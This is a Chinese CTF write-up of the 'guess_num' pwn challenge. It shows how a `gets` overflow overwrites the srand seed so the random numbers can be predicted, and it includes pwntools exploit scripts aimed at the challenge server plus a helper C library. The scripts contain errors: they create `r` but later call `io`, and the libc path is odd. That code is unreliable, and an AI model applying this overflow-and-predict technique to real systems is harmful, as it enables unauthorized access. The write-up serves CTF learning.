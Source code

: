 ```yaml
---
title: (wp)攻防世界PWN——guess_num
date: 2020-04-02 21:34:48
id: 20200402213448
tags: 
	- CTF
	- PWN
categories: 网络安全
---
```


好久没有做PWN题了，今天开始做一下，把之前的东西捡起来，同时对之前有些知识点也有了新的认识，新的理解。

# 分析

首先将附件下载下来，同时通过nc连接一下，了解一下大致的流程。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402220645.png)

可以看到，先让我们输入用户名，然后输入猜的的数字。

然后常规操作，通过`file`和`checksec`工具判断文件类型和开启了那些防护措施。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402220856.png)

可以知道这是一个64位的linux程序，并且开启了部分只读，栈溢出保护，不可执行和地址随机化。

接着我们通过IDA加载，反汇编一下。

IDA加载程序后，`ctrl+F5`查看一下伪代码。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402221626.png)

我们点击进入`sub_C3E()`，发现它会调用系统函数，打印flag，因此我们要保证程序能执行到这一步。

因此，在`v4`和`v6`比较时我们要保证这两个值相同，其中`v4`是我们的输入值，`v6`是随机数。我们知道这里的随机数是通过种子`seed`来形成的，如果`seed`一定，那么生成的随机数也是一定的。

双击`seed[0]`，可以发现`seed`是在栈帧中的，上面还有`var_30`。

查看汇编代码。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402222715.png)

在代码中可以找到如下信息：

```assembly
var_30 = byte ptr -30h
seed   = dword ptr -10h

lea     rax, [rbp+var_30]
mov     rdi, rax
mov     eax, 0
call    _gets
mov     rax, qword ptr [rbp+seed]
mov     edi, eax        ; seed
call    _srand
```

我们输入的name，存在栈帧中，占20h，下面高地址位紧跟着seed的值。因此我们可以溢出覆盖掉seed，将种子设置为已知值，从而控制生成的随机数。

写出exp：

```python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('/bin/x86_64-linux-gnu/libc.so.6')
libc.srand(1)
payload = 'A' * 0x20 + p64(1).decode()
r = remote('111.198.29.45', 57255)
r.recvuntil('name:')
r.sendline(payload)
for i in range(10):
    num = str(libc.rand() % 6 + 1)
    io.recvuntil('number:')
    io.sendline(num)

io.interactive()

```

其中so文件的路径是通过`ldd`工具找到的。

在这里，如果我们的开发环境不是在linux下，比如我是在MAC下，那么我们怎么去获得这个so文件呐。

既然没有，那我们是不是可以自己写一个呐，说干就干。

```c
#include<stdio.h>
#include<stdlib.h>

void srand1(){
  srand(1);
}

int rand1(){
  return rand();
}

```

然后通过gcc编译成一个so文件。

```shell
gcc -fPIC -shared g_rand.c -o g_rand.so
```

然后我们在exp中，将文件的路劲改为我们生成的so文件，调用变为我们自己的函数，也可以实现。

```python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('./g_rand.so')
libc.srand1()
payload = 'A' * 0x20 + p64(1).decode()
r = remote('111.198.29.45', 57255)
r.recvuntil('name:')
r.sendline(payload)
for i in range(10):
    num = str(libc.rand1() % 6 + 1)
    io.recvuntil('number:')
    io.sendline(num)

io.interactive()


```

